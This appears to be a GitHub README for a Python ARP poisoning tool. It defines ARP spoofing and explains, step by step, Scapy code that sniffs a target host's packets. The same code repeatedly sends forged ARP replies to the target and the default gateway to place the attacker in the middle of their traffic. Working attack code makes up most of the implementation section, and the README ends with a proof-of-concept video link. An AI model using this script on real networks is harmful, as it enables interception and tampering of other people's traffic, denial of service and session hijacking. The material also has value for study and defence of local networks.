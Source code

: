 # ARP Poisoning

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network. Generally, the aim is to associate the attacker's MAC address with the IP address of another host, such as the default gateway, causing any traffic meant for that IP address to be sent to the attacker instead.

ARP spoofing may allow an attacker to intercept data frames on a network, modify the traffic, or stop all traffic. Often the attack is used as an opening for other attacks, such as denial of service, man in the middle, or session hijacking attacks.

# Implementation
1. **Import Statements and Configuration**:
    - `from scapy.all import *`: Imports all functions and classes from the Scapy library, which is a powerful packet manipulation library.
    - `import threading`: Imports the threading module, which allows for the creation of threads.
    - `import time`: Imports the time module for time-related functions.
    - `conf.checkIPaddr = False`: Disables Scapy's IP address checking, allowing ARP packets to be sent without matching the sender's IP address.


2. **Variables**:  
    - `interval`: Time interval (10 seconds) between sending ARP packets.
    - `DEFAULT_GATEWAY`: IP address of the network's default gateway (e.g., a router).
    - `TARGET_IP`: IP address of the target machine within the network.


3. **Packet Sniffing Function (`sniff_packets`)**:  
    - `process_packet`: A function that processes each sniffed packet. It checks if the packet's source MAC address matches that of the target IP. If it does, the packet summary is printed.
    - `sniff`: Sniffs the network packets on the "Ethernet" interface and applies the `process_packet` function to each packet.
```python
def process_packet(packet):
    if packet.fields["src"] == getmacbyip(TARGET_IP):
        print(packet.summary())

def sniff_packets():
    sniff(iface = "Ethernet", prn = process_packet)
```


4. **ARP Spoofing Function (`send_packets`)**:
    - `spoof`: Creates an ARP reply packet that falsely tells the target machine that the attacker's machine has the IP of the default gateway, and vice versa. This way, the attacker's machine becomes the man-in-the-middle.
    - The `spoof` function is called repeatedly in a loop for both the target and the default gateway, causing both to associate the attacker's MAC address with the other's IP address.
```python
def spoof(target_ip, spoof_ip):
    arp_reply = ARP(op = 2, pdst = target_ip, hwdst = getmacbyip(target_ip), psrc = spoof_ip)
    send(arp_reply, verbose = False)

def send_packets():
    while True:
        spoof(TARGET_IP, DEFAULT_GATEWAY)
        spoof(DEFAULT_GATEWAY, TARGET_IP)
        time.sleep(interval)
```


5. **Threads Creation and Execution**:
    - `thread1` and `thread2` are created to run `sniff_packets` and `send_packets` functions, respectively.
    - The threads are started, allowing simultaneous execution of packet sniffing and ARP spoofing.
```python
thread1 = threading.Thread(target=sniff_packets)
thread1.start()

thread2 = threading.Thread(target=send_packets)
thread2.start()
```


# Restore
The `restore.py` script restores the initial state of the ARP table of the target and the default gateway.


# PoC
![YouTube](https://www.youtube.com/watch?v=3yNQvNuUWQ8)
